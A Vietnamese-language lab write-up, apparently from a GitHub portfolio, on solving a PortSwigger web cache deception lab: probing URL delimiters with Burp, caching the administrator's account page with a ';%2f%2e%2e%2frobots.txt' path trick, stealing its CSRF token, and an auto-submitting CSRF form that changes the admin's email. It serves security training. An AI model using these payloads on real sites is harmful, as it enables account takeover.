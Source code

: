 # Write-up: Exploiting exact-match cache rules for web cache deception

### Tổng quan
Khai thác lỗ hổng web cache deception do quy tắc cache khớp chính xác, sử dụng ký tự `;` để thao túng URL `/my-account`, đánh lừa hệ thống cache lưu trữ trang tài khoản của `administrator`, lấy CSRF token, tạo PoC để đổi email và hoàn thành lab.

### Mục tiêu 
- Khai thác lỗ hổng web cache deception để lấy CSRF token của `administrator`, tạo CSRF PoC, đổi email và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser
- Exploit Server (PortSwigger)

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập tài khoản `wiener`:`peter`
- Gửi `GET /my-account` tới Burp Repeater:
    - thêm `/abc`
    - **Phản hồi**: "Not found", cho thấy `/my-account` yêu cầu khớp chính xác.
        ![not found](./images/1_not-found.png)

- Dò ký tự đặc biệt bằng Burp Intruder: `GET /my-account§/§abc`:
    - **Kết quả**: Ký tự `;` và `?` được chấp nhận nhưng không có header x-cache: miss hoặc hit:
        ![delimiter](./images/2_delimiter.png)

- Kiểm tra cache với file tĩnh:
    - Quan sát yêu cầu `GET /resources/js/tracking.js`: không có header x-cache, gợi ý hệ thống cache chỉ hoạt động với một số endpoint.

- Thử cache với `robots.txt`: `GET /resources/../robots.txt`:
    - Lần 1: **Phản hồi**: `x-cache: miss`.
        ![mis](./images/3_miss.png)
    - Lần 2: **Phản hồi**: `x-cache: hit`, xác nhận hệ thống cache lưu trữ `robots.txt`:
        ![hit](./images/4__hit.png)

- Kiểm tra ký tự `?` và `;` với cache: 
    `GET /my-account?%2f%2e%2e%2frobots.txt`
    - **Phản hồi**: Không có `x-cache`, cho thấy `?` không được cache.
    
    `GET /my-account;%2f%2e%2e%2frobots.txt`
    - **Phản hồi**: Có tiềm năng cache, chọn `;` để khai thác.

2. **Khai thác (Exploitation)**
- Sử dụng Exploit Server để gửi payload lừa nạn nhân (`administrator`) truy cập:
    ```
    <script>document.location="https://lab-id.web-security-academy.net/my-account;%2f%2e%2e%2frobots.txt?wcd"</script>
    ```
    - Lưu payload vào body của Exploit Server và gửi tới nạn nhân qua chức năng `"Deliver exploit to victim"`:
        ![body](./images/5_body.png)

- Kiểm tra cache: `GET /my-account;%2f%2e%2e%2frobots.txt?wcd`
    - **Phản hồi**: `x-cache: hi`t, trả về trang `/my-account` của `administrator` nhưng bị redirect tới trang đăng nhập.

- Gửi lại payload qua Exploit Server để đảm bảo administrator truy cập và cache lại trang.
- Lấy CSRF token của administrator: `GET /my-account;%2f%2e%2e%2frobots.txt?111`
    - **Phản hồi**: Lấy được CSRF token `IxmtUWXSWGQXwzaKLvrO1Al2KAdYaaxm`:
        ![csrf](./images/6_csrf.png)

- Trong Burp Proxy > HTTP History, tìm yêu cầu `POST /my-account/change-email`, gửi tới Burp Repeater:
    - Thay CSRF token bằng token của `administrator` (`IxmtUWXSWGQXwzaKLvrO1Al2KAdYaaxm`) và đổi email thành một eamil không giống email wiener
    - Sử dụng Burp Engagement Tools > Generate CSRF PoC, sao chép HTML.
    - Dán HTML vào body của Exploit Server:
        ```html
        <html>
        <body>
            <form action="https://lab-id.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="csrf" value="IxmtUWXSWGQXwzaKLvrO1Al2KAdYaaxm">
            <input type="hidden" name="email" value="hacker@example.com">
            <input type="submit" value="Submit request">
            </form>
            <script>
            document.forms[0].submit();
            </script>
        </body>
        </html>
        ```
        ![change](./images/7_change_CSRF%20PoC.png)

- Gửi exploit tới nạn nhân qua Exploit Server
    - **Phản hồi**: Email của `administrator` bị đổi, hoàn thành lab:   
        ![solved](./images/8_solved.png)

- **Giải thích**: Lỗ hổng web cache deception do quy tắc cache khớp chính xác cho phép lưu trữ trang `/my-account` của `administrator` khi thêm `;%2f%2e%2e%2frobots.txt`, giúp lấy CSRF `token`. CSRF PoC tận dụng token để đổi email.

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng web cache deception bằng cách thao túng URL với ký tự ; để lưu trữ trang nhạy cảm và lấy dữ liệu như CSRF token.
- Nhận thức tầm quan trọng của việc cấu hình cache an toàn và kiểm tra các ký tự đặc biệt trong URL để ngăn chặn web cache deception.

### Tài liệu tham khảo
- PortSwigger: Web Cache Deception

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác web cache deception để lấy CSRF token, thực hiện tấn công CSRF, và hiểu cách bảo vệ hệ thống cache khỏi các cuộc tấn công tương tự. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*